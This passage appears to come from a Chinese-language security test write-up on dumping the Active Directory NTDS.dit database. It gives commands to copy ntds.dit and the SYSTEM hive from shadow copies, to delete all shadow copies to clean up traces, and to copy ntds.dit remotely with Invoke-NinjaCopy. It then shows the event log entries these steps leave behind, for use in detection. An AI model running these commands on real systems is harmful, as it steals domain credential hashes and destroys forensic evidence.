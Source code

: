 2. **复制NTDS.dit和SYSTEM**：
   ```cmd
   copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
   copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\Temp\system.hiv
   ```

3. **清理痕迹**：
   ```cmd
   vssadmin delete shadows /all
   ```

4. **提取哈希**：
   重复测试1的步骤3-5。

5. **结果分析**：
   - 成功：通过卷影副本获取NTDS.dit并提取哈希。
   - 失败可能：VSS服务未启用或权限不足。

#### 测试3：使用Invoke-NinjaCopy远程复制
1. **启用WinRM**：
   在目标DC上启用PowerShell远程管理：
   ```cmd
   winrm quickconfig
   ```

2. **执行Invoke-NinjaCopy**：
   在攻击机上运行PowerSploit：
   ```powershell
   Import-Module .\Invoke-NinjaCopy.ps1
   Invoke-NinjaCopy -Path "C:\Windows\NTDS\ntds.dit" -LocalDestination "C:\Temp\ntds.dit" -ComputerName DC01
   ```

3. **提取哈希**：
   重复测试1的步骤3-5。

4. **结果分析**：
   - 成功：远程复制NTDS.dit并提取哈希。
   - 失败可能：WinRM未启用或网络限制。

## 测试留痕

### Windows安全日志
- 事件ID4688：
  ```
  进程信息:
    新进程ID:0x1234
    新进程名称:C:\Windows\System32\ntdsutil.exe
    命令行:ntdsutil "activate instance ntds" "ifm" "create full C:\Temp\ntds_dump" quit quit
    创建者进程名称:C:\Windows\System32\cmd.exe
  ```
  ```
  进程信息:
    新进程ID:0x5678
    新进程名称:C:\Windows\System32\vssadmin.exe
    命令行:vssadmin create shadow /for=C:
    创建者进程名称:C:\Windows\System32\cmd.exe
  ```
